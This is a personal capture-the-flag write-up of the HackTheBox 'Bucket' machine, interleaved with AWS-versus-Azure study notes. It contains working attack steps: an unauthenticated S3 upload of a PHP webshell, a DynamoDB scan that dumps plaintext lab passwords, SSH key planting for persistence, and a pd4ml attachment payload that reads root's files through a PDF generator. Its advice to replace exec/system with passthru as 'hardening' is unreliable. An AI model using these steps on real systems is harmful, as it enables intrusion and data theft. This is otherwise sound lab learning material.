

# Bucket Helped-Through

Name: Bucket
Date:  09/01/2023
Difficulty:  Medium
Goals:  
- Compare AWS with Azure  
- Have some idea of what AWS other than the words s3 and it uses an api for cloud stuff
- Perform a Linux Hardening and Persistence
- Hunt for 3 more content creators for this type of learning exercise - want to do one a week to compliment start really focusing on completing one HTB Active machine a week from Febuary. 
Learnt:
- AWS basics
- Routing possiblities on apache config

Beyond Root:
- Harden box - Failed no time More Azure Instead
- Add a low and high priv Persistence + plus create a vuln on the box
- Return to every description of AWS vs Azure - Look at what my notes say, then search engine dork and ChatGPT the answers for a average time per AWS  vs Azure point.

I will be helped through by [Alh4zr3d](https://www.youtube.com/watch?v=vSug24hrQdo) as part of Newbie Tuesday; this video covers "Bucket" from HacktheBox, in which we tackle some common misconfigurations in Amazon Web Services (AWS)! My caveat and challenge being while doing this box is to both add AWS to the archive as a baseline definition of what it is and how to hack it, but more important perform a recall exercise about Azure while I am going along. So I will be stopping and starting the video alot abit like drink everytime someone says X, its explain how the same thing works in Azure without looking at notes or looking up. I think this is a cool way to kill all the birds with one stone by hacking away with someone parasocially, doing Azure recall to see where I do not know - good luck with `az` and `powershell` commands future me, learning about AWS via Azure knownledge and Hacking AWS for the second timne other than a THM AoC that was not very in depth or I did not take it that seriously over a year ago. 

AWS according to ChatGPT in two sentences: *"Amazon Web Services (AWS) is a cloud computing platform that provides a wide range of services such as computing, storage, networking, database, analytics, machine learning, security, and application development. These services are offered on a pay-as-you-go basis and can be accessed over the internet, allowing organizations to scale and innovate quickly."*

Azure provides similar services, but absent of the description above is that Azure provides:
- Dedicated Lift-and-shift and on-premise to cloud connective with Azure Connect
- Access over Azure backbone in addition to over vpns and internet
- Azure Active Directory 
- Templating for build consistency, scalability, etc wtih ARM and Bicep
- `az` cloud binary for Linux and Windows.

## Recon

The time to live(ttl) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.


Just ports 22 and 80; the root webpage is bare of links


But is sourcing images from s3.bucket.htb


[Hacktricks : buckets just recommend ScoutSuite](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/buckets) and AWS hacking Tricks is not found. Checking the s3 with burp:

Decide to feroxbuster with a large wordlist just to background recursive fuzzing of the api initially, before using Postman and Ffuf.

[ScoutSuite](https://github.com/nccgroup/ScoutSuite)

It's is 49 minutes into the video and Alh4zr3d is just finished scanning the machine; given that there has not been Azure vs AWS


#### AWS vs Azure
S3 Buckets use API calls to fetch stored content
Guess: bash, \*Shell or `Az` binary is used to query resources or wrap queries to resources that have query languages.

Alh4zr3d points out a trick to figure out how to: Clarify host OS version from webserver version?

[S3 Amazon Augmented Definitions](https://docs.aws.amazon.com/AmazonS3/latest/userguide/Welcome.html): *"Amazon Simple Storage Service (Amazon S3) is an object storage service - [using Amazon S3 storage classes](https://docs.aws.amazon.com/AmazonS3/latest/userguide/storage-class-intro.html) that offers industry-leading scalability, data availability, security, and performance. Customers of all sizes and industries can use Amazon S3 to store and protect any amount of data for a range of use cases, such as data lakes, websites, mobile applications, backup and restore, archive, enterprise applications, IoT devices, and big data analytics. Amazon S3 provides management features so that you can optimize, organize, and configure access to your data to meet your specific business, organizational, and compliance requirements."*

Al ask: What should we poke at or look for vulnerabililty-wise?
My answers:
- Exposed API keys
- API queries for figured the API structure and API typology. 

"It may be misconfigured where we could upload files" - AL  - "Poorly configured permission is prevalent given the complexity of permissions in AWS"

While Al struggle with install and dependency issues - he saved by Docker, I will spend a hour making all the Docker related infrastructure I need to basic setup, add scripts - also RustScan, which just making me want to write my own port scanner for various reasons:
- Output is nasty
- Why do you have to have `--accessible` flag to remove the the colours and flash that make it take longer
- If it best to live in a docker container just to not destroy the kernel or file system, wtf is it actually doing and why does it even exist as software at level of prestige and not just give in a same it is a docker image wrapper around nmap.
- Does not fit into an automation pipelines
- Why wrap around nmap, when you are trying to replace Massscan?


#### AWS vs Azure

This got delayed slightly, but maybe for the best:
- Azure in powershell and cloudcli uses credential as the raw object drawn from the system not a key stored in a Environment variable.
- ARM templates could be used to reconfigure file system permissions for non-secure third party software after installation or batch reinstate permissions across a section of the file system.
- Generally the SaaS for data storage

```bash
sudo apt install awscli
# Configure Access Key ID, AWS Secret, region, Output 
aws configure

aws --endpoint-url http://s3.bucket.htb s3 ls

# AWS Keys are commonly stored in environment variables
aws --endpoint-url http://s3.bucket.htb --no-sign-request s3 ls adserver

# s3 Subcommands
# Single Object operations
mv
cp
rm
# Directory and s3 operations
sync
mb
rb
ls
```
[AWS-CLI Subcommands](https://docs.aws.amazon.com/cli/latest/reference/)


Prevent credential requesting


## Exploit

We can then upload a file as permissions are misconfigured therefore uploading a webshell would be the next move.

Although it is being removed. 


```bash
aws --endpoint-url http://s3.bucket.htb --no-sign-request s3 cp cmd.php s3://adserver/images/
```

## Foothold


I failed initialliy because I was targetting the s3. not the domain that is hosting the website


.aws in the linux fstab root directory


```bash
# host 
stty -a
# target
stty rows $rows cols $cols
```

There is a Roy user with his project directory

[Invocation_id](https://docs.aws.amazon.com/systems-manager/latest/userguide/mw-cli-register-tasks-parameters.html)
```bash
# Weird environment variable - The ID of the current invocation.
INVOCATION_ID=8056c5bf40f84c21951e4aabbe71db0c
```
[Dynamo DB](dynamodb.png) - is a ["Fast, flexible NoSQL database service for single-digit millisecond performance at any scale"](https://aws.amazon.com/dynamodb/)

For [Dynamodb commands](https://docs.aws.amazon.com/cli/latest/reference/dynamodb/index.html)

Importantly skipped over was the need to specify a home directory, because we are www-data
```bash
export HOME=/dev/shm
```


```bash
aws dynamodb list-tables --endpoint-url http://localhost:4566 --no-sign-request
```


[Querying a table](https://docs.aws.amazon.com/amazondynamodb/latest/developerguide/SQLtoNoSQL.ReadData.Query.html), but Al was too quick - with `scan` 

```bash
www-data@bucket:/home/roy/project/vendor$ aws dynamodb scan --table-name users --endpoint-url http://localhost:4566 --no-sign-request
```


```json
{
    "Items": [
        {
            "password": {
                "S": "Management@#1@#"
            },
            "username": {
                "S": "Mgmt"
            }
        },
        {
            "password": {
                "S": "Welcome123!"
            },
            "username": {
                "S": "Cloudadm"
            }
        },
        {
            "password": {
                "S": "n2vM-<_K_Q:.Aa2"
            },
            "username": {
                "S": "Sysadm"
            }
        }
    ],
    "Count": 3,
    "ScannedCount": 3,
    "ConsumedCapacity": null
}
```


## PrivEsc

Password reuse or just that the sysadm is role that roy has
`roy : n2vM-<_K_Q:.Aa2 `

Not made ssh key and used it as a second shell as I have always made other more hacker-y shells from binaries on the box to learn more hacker-y things
```bash
# provide some fields - roy_rsa
ssh-keygen  
# target 
mkdir .ssh
echo "ssh-rsa $base64fromkey" > .ssh/authorized_keys
```
and ssh in 


We could not access bucket-app as www-data so probably this the vector of escalation. It uses Linux ACLs 
```bash
# Special permissions like: drwxr-x---+  
getfacl $directory/file
```

With a weird jar file inside:

Reading the index.php

[passthru](https://www.php.net/manual/en/function.passthru.php) - The _passthru_() function is similar to the exec() function in that it executes a command . This function should be used in place of exec() or system() he output from the Unix command is binary data which needs to be passed directly back to the browser. 

`passthru` being your box hardening for php file with system or exec

```bash
grep -r -e 'system(\|exec(' 2>/dev/null
# Nuke the files
sed -i 's/exec(/passthru(/g' $file
sed -i 's/system(/passthru(/g' $file
```

As I was testing my battleground hopes and commands to run

```bash
[SHIFT ~ C] # to drop to ssh shell
ssh> -L 8000:localhost:8000
```

To index.php is going to:
1. If post request made
2. Perform a similar lookup with `scan` for some "S" - string name: Ransonware
3. Make random filename in files/
4. transforms the file at file/$random into pdf file result.pdf


Although... : (


Al thinks we need to make the table and attributes so that the table exists for the index.php function to occur.

```bash
aws dynamodb list-tables --endpoint-url http://localhost:4566
aws dynamodb --endpoint-url http://localhost:4566
# --table-name alerts
# --attribute-definitions AttributeName=title,AttributeType=S AttributeName=data,AttributeType=S --key-schema AttributeName=title,KeyType=HASH  AttributeName=data,KeyType=RANGE --provisioned-throughput ReadCapacityUnits=10,WriteCapacity=10

```

ChatGPT explains the code: *"This code is written in PHP and appears to be setting up a connection to a DynamoDB database and issuing a 'Scan' command to retrieve items from an 'alerts' table where the 'title' attribute is equal to 'Ransomware'. For each item retrieved, a random file name is generated, and the item's 'data' attribute is written to a file with that name in a 'files' directory. Then, a Java program is run, passing it the file name of the file just created and some other arguments. It is not clear what the purpose of this Java program is or what it does with the file."*

Then ChatGPT asnwers what is the difference between a partition key and sort key in AWS:
*"In Amazon DynamoDB, a primary key is used to uniquely identify an item in a table. There are two types of primary keys: a partition key, and a sort key. 

*A partition key is a simple primary key that is made up of a single attribute. DynamoDB uses the partition key's value as input to an internal hash function, and the output value from the hash function determines the partition where the item is stored.*

*A sort key is an optional attribute that you can use to further organize the items in a table. You can define a sort key as a secondary index and use it to filter and sort results.*

*So, to summarize, the difference between a partition key and a sort key is that a partition key is used to distribute data across partitions, while a sort key is used to store data within a partition and to sort items within a partition."*

I do not think my mind has ever melted this hard when working with databases, even MSSQL seems less verbose. The documentation does not seem great.


```bash
aws dynamodb create-table --table-name alerts --attribute-definitions AttributeName=title,AttributeType=S AttributeName=data,AttributeType=S --key-schema AttributeName=title,KeyType=HASH  AttributeName=data,KeyType=RANGE --provisioned-throughput ReadCapacityUnits=10,WriteCapacityUnits=10 --endpoint-url http://localhost:4566

aws dynamodb put-item --table-name alerts --item '{"title": {"S": "Ransomware"}, "data": {"S": "maddata"}}' --endpoint-url http://localhost:4566
```
[create-table](https://docs.aws.amazon.com/cli/latest/reference/dynamodb/create-table.html), [put-item](https://docs.aws.amazon.com/cli/latest/reference/dynamodb/put-item.html)


I typo-ed Ransomware as I obviously have not had to type it into every report yet.


Something went wrong along the way such that the files did not get created. - at https://www.youtube.com/watch?v=vSug24hrQdo

[Comparing 0xdf, the endpoint is positioned first](https://0xdf.gitlab.io/2021/04/24/htb-bucket.html#shell-as-root)
```bash
aws --endpoint-url http://localhost:4566 dynamodb create-table --table-name alerts --attribute-definitions AttributeName=title,AttributeType=S AttributeName=data,AttributeType=S --key-schema AttributeName=title,KeyType=HASH  AttributeName=data,KeyType=RANGE --provisioned-throughput ReadCapacityUnits=10,WriteCapacityUnits=10 
# PoC the table creation and retrieval in the script
aws --endpoint-url http://localhost:4566 dynamodb put-item --table-name alerts --item '{"title":{"S":"Ransomware"}, "data":{"S":"mad data"}}'
# Going curl instead of burp this time:
curl http://127.0.0.1:8000/index.php --data 'action=get_alerts'
# Scp the file
scp roy@bucket.htb:/var/www/bucket-app/files/result.pdf .
# copy and paste
n2vM-<_K_Q:.Aa2

```


Presumably it has something to do with the credentials in this directory or using the functionality to grab another file.

AWS vs Azure

Creating blob storage through the Azure Portal is accomplished by having a Storage Account and a container within that account, blobs can be uploaded. Depending on the use case of the organisation the type of storage temperature - throughput volume requirements -  structure data should store in Azure Tables.


Adding a attachment [pd4ml](https://pd4ml.com/support-topics/usage-examples/)


We then need to place that in the Json to force the resulting to PDF to produce something as the string data we provided would appear in the PDF. The paperclip feature of Pd4ml will create a nice clip icon that will be the embedded exfiltrated file. Lmao.

```bash
aws --endpoint-url http://localhost:4566 dynamodb create-table --table-name alerts --attribute-definitions AttributeName=title,AttributeType=S AttributeName=data,AttributeType=S --key-schema AttributeName=title,KeyType=HASH  AttributeName=data,KeyType=RANGE --provisioned-throughput ReadCapacityUnits=10,WriteCapacityUnits=10 
# GEt the paperclip
aws --endpoint-url http://localhost:4566 dynamodb put-item --table-name alerts --item '{"title":{"S":"Ransomware"},"data":{"S":"<pd4ml:attachment src=\"file:///root/root.txt\" description=\"attachment sample\" icon=\"Paperclip\"/>"}}'
# Going curl instead of burp this time:
curl http://127.0.0.1:8000/index.php --data 'action=get_alerts'
# scp the file
scp roy@bucket.htb:/var/www/bucket-app/files/result.pdf .
# Copy and past password
n2vM-<_K_Q:.Aa2

```

AWS vs Azure

Provisioning *IMO* should done at the ARM template or Bicep level such that it is monitorable with the Azure Billing rather than at the command line level. You can with Powershell, Az and set configurations, but this seems a error prone nightmare waiting to happen. This is the first time Powershell syntaxt is eclipsed by AWS verbosity. Provisioning is type based rather than tuning the unit of RW in Azure or atleast as far as I am aware.


## Beyond Root

Well I added a hardening and persistence method throughout this, so this will be the Azure and AWS. 

[Ippsec](https://www.youtube.com/watch?v=SgWhuTxm2oY) made the creating a table part seem easy - I did have heavy cold and my brain seemed like mush and AWS documentation is rough. 

[0xdf](https://0xdf.gitlab.io/2021/04/24/htb-bucket.html) points out in his beyond Root section the reason as to how we are able to access the DB on localhost:4566 - apache config has a VirtualHost section with [ProxyPass](https://httpd.apache.org/docs/2.4/mod/mod_proxy.html#proxypass) (Maps remote servers into the local server URL-space). *"This directive allows remote servers to be mapped into the space of the local server. The local server does not act as a proxy in the conventional sense but appears to be a mirror of the remote server. The local server is often called a reverse proxy or gateway. The path is the name of a local virtual path; url is a partial URL for the remote server and cannot include a query string."*

It also has three servers - one for the routing to server on port 8000, second is to redirect to bucket.htb and the third is the proxy to localhsot:4566.

[0xdf](https://0xdf.gitlab.io/2021/05/03/more-bucket-beyond-root.html) has a More Beyond Root concept. Why is there no image directory. Basically it exists in the container, but the routing of the (virtual) servers points to the bucket in a container, which is all host out of that /var/ww/html web directory.


#### Azure

[Azure Storage](https://learn.microsoft.com/en-us/azure/storage/tables/table-storage-overview): *"Azure Table storage is a service that stores non-relational structured data (also known as structured NoSQL data) in the cloud, providing a key/attribute store with a schemaless design."*

This does also require a storage account and resource group.

[Create a AzStorageTable storage](https://learn.microsoft.com/en-us/azure/storage/tables/table-storage-how-to-use-powershell) table associated with the storage account in Azure and relevant activities
```powershell
# Create new table
New-AzStorageTable -Name $tableName –Context $ctx
# create a object to perform table operations
$storageTable = Get-AzStorageTable –Name $tableName –Context $ctx
# Get the manditory CloudTable, will create a table if non-existent
$cloudTable = $storageTable.CloudTable
# table entries - entityOne/Two are fields 
Add-AzTableRow -table $cloudTable -partitionKey $partitionKey -rowKey ("CA") -property @{"entityOne"="data";"entityTwo"=1}
# Query the table; for specifics use: -columnName "" -value "" -operator $op
Get-AzTableRow -table $cloudTable | ft
# Delete a table
Remove-AzStorageTable –Name $tableName –Context $ctx
```

The URL like the endpoint URL in AWS can also have SAS token for monitor and secure access to an endpoint. 

